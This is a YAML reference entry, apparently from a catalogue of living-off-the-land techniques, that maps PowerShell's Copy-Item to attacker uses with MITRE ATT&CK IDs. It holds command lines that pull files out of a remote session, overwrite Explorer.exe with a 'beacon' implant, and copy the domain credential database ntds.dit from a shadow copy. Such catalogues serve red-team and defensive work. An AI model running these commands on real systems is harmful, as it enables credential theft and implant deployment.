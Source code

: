 ```yaml
---
Name: Copy-Item
Description: Copies an item from one location to another
Updated: 2023-08-25
Toolsets:
  - Builtin
  - PSSession
Commands:
  - Command: 'Copy-Item -Path C:\boot.ini -Destination . -FromSession $ps'
    Description: Copy file from PSSession
    Usecases:
      - Exfiltrate data
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1021.006
  - Command: 'Copy-Item -Path C:\beacon.exe -Destination C:\Windows\System32\Explorer.exe -ToSession $ps'
    Description: Copy file to PSSession
    Usecases:
      - Copy implant
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1021.006
      - T1570
  - Command: 'Copy-Item -Path \\DC01.ad.bitsadmin.com\C$\@GMT-2023.06.01-19.34.01\Windows\NTDS\ntds.dit -Destination C:\Tmp\'
    Description: Copy from volume shadow copy
    Usecases:
      - 'Exfiltrate `ntds.dit` from shadow copy over SMB'
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - Example of performing such copy at the blog in the references
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1570
      - T1021.002
Resources:
  - https://blog.bitsadmin.com/extracting-credentials-from-remote-windows-system
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```


